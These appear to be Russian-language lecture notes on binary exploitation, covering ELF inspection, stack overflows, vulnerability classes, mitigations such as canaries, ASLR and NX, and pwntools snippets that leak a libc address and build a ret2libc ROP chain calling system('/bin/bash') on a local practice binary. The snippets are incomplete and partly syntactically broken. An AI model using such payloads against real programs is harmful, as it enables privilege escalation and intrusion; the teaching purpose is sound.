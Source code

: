 `/bin/ls` 
```
/bin/ls: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=aeeee2e0bb6f07d85659890089641491b489cd92, for GNU/Linux 3.2.0, stripped
```
stripped - означает, что у него обрезанная дебажная инфа

`readelf -h /bin/ls`  - дает больше инфы о файле
`readelf -a` - дает ещё БОЛЬШЕ инфы

Проблема переполнения стэка в функции check от sudo:
![](https://i.imgur.com/j447x0T.png)
Так как стэк растет к младшим битам, мы можем перезатереть адрес возврата, поэтому могут воникнуть прооблемы.

### Уязвимость RCE
Можем передать программе, например через запись в пароль опасный машинный код, который может делать что-то страшное, например увеличение привелегий.
Какие это порождает уязвимости:
1) lpe - ping
2) rce - nginx, chrome, tcpdump, imagemagic
3) VM/Sandbox escape - VirtualBox, docker
4) Memory leak - openssl heartbleed

Фикс уязвимости check sudo:
1) на стэк кладется какая то оргиниальная рандомная запись до и после значения пользователя
2) в конце исполнения функции будет проверяться изменилось ли это значение.
Этот фикс не сработал например для процесса, который форкается, то есть не обновляется канарейка (NGINX)

Фикс 2:
	Рандомизированное виртуальное окружение
Фикс 3:
	полностью размеченная память на чтение и запись

Ещё уязвимости:
1) Уязвимость Use After Free - это когда мы как то почистили область памяти, но на нее все ещё существует указатель, который на неё ссылается, а потом создали указатель на это место и туда что-то записали. Проблема, два указателя указывает на одно место в памяти.
2) Уязвимость переполнение uint - при переполнении мы попадем в 0.

## Инструменты для бинарной эксплотации
`pwntools` - либа для питона 
`pwndbп` - плагин для gdb, можно смотреть что лежит на стэке и тд.
`binary.ninja` - перевод машинного выхлопа в асемблерный код, или даже в Сишный код

```python
from pwn import *
def main():
	r.process('./main') #бинарь
	gdb.attach(r)
	r.send(b'A' * 0x80 + )

	r.interactive()
```
proc fs - виртуальная файловая система, которая хранить инфу о всех процессах

Уязвимость хотим в бинаре выполнить команду: system("/bin/bash")

Утилита ROPgadget - декомпиляция бинаря с любого момента
`ldd ./main` - можно посмотреть каким библиотеками используется бинарь (хотим найти sysstem), но возникнет проблема рандомного обновления виртуального окружения. 
`nm -a /lib64/lib.c.so | grep system` - вычисление адреса функции в либе
```python
from pwn import *
def main():
	r.process('./main') #бинарь
	gdb.attach(r)
	r.send(b'A' * 0x90 + b'B' * 8 + b'C' * 8)
	r.recvuntil(b'C' * 8)
	
	addr = r.recv(6) + b'\0\0' # 6, потому что 6 байт генерятся рандомно для 
	
	print(f"{hex(u64(addr)) = }")	
	r.interactive()
```
ТО есть програмой мы ликаем адрес и с помощью vmmap получаем что это за адрес.

Получение offset функции system в libc
```python
libc = ELF('/lib64/lib.so.6')
system_offset = libc.symbols['system']
```
Аналогично находим `/bin/bash`

Теперь с помощью адреса библиотеки из предыдущего шага и offset мы можем в прогрумму(в регистр rdi) положить `system(/bin/bash)`
```python
# 0x0000... : pop rdi ; ret
pop_rdi = libc_base + 0x0000...

p = b'A' * 0x90  p64(pop_rdi) +  p64(bin_sh_addr) + p64(system_addr)
r.send(p)
```

### Follow up
Тулинга который мы для этого использовали:
- tmux (эмулятор терминала в котором очень удобно делить экран пополам, есть поиск по тексту, и всё такое)
- Binary Ninja (декомпилятор в котором я работал)
- gdb (дебаггер, в котором мы смотрели на то как исполняется наш бинарник. считаю, что каждый человек на земле обязан уметь им пользоваться, как минимум ставить breakpoint_ы, шагать по программе по одной инструкции и печатать значения по адресам)
- pwntools (python библиотека для написание эксплоитов)
- pwndbg (плагин для красивого GDB)

Сегодня также поговорили про митигации уязвимостей, в частности:
- NX-bit в linux/DEP тоже самое в винде
- ASLR (механизм рандомизации памяти)
- Канарейка на стеке

Также обещал вам скинуть дополнительно:
- про GWP ASan (https://www.youtube.com/watch?v=-RlxhU-W8dY) и как им нашли 500 багов в хроме
- и вообще неплохо знать что такое и как он работает Address Sanitizer (https://github.com/google/sanitizers/wiki/addresssanitizer)
